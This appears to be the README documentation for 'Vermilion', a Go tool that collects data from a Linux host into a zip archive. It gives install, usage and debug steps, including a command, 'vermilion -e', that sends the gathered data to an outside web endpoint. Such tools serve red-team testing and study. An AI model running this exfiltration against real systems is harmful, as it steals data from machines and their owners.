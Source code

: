 # Vermilion Docs


## Installation  

New version of the tool are released via Github.  
You can retrieve the release you want from this page.  
Example via bash (wget):  
```sh
wget https://github.com/R3DRUN3/vermilion/releases/download/v0.1.0/vermilion_0.1.0_linux_amd64.tar.gz
tar -xzf vermilion_0.1.0_linux_amd64.tar.gz
chmod +x vermilion
```  

## Usage
In order to see the tool helper run:  
```sh
./vermilion -h
```  

By default no exfiltration is executed, the following two commands are the same:
```sh
./vermilion
```
and
```sh
vermilion --noexf
```  

both the previous command produce a local `exdata` folder with a compressed (.zip) archive inside.  
The archive contains all exfiltrated data.  


If you want to specify and endpoint for exfiltration run:  
```sh
vermilion -e https://<your-web-endpoint>
```  





## Debug  

You can use [*vscode*](https://code.visualstudio.com/) for debugging.  
this repo already contains the `.vscode/launch.json` file:  

```json
{
    "version": "0.2.0",
    "configurations": [
        {
            "name": "Debug vermilion with VsCode",
            "type": "go",
            "request": "launch",
            "mode": "debug",
            "program": "${workspaceFolder}/main.go",
            "args": ["--noexf"],
            "env": {},
            "showLog": true,
            "cwd": "${workspaceFolder}"
        }
    ]
}
```  

Just modify this file to accomodate your configuration and launch the debug via vscode.  

## Test Exfiltration  

You can test data exfiltration locally by following [*these instructions*](../tests/exfiltration/README.md).  
  


